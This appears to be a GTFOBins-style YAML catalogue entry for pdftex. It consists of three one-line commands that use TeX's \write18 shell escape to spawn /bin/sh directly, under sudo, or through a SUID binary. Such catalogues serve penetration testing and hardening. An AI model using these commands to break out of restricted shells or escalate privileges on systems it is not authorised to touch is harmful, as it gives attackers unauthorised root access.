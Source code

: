 functions:
  shell:
    - code: |
        pdftex --shell-escape '\write18{/bin/sh}\end'
  sudo:
    - code: |
        sudo pdftex --shell-escape '\write18{/bin/sh}\end'
  limited-suid:
    - code: |
        ./pdftex --shell-escape '\write18{/bin/sh}\end'
---
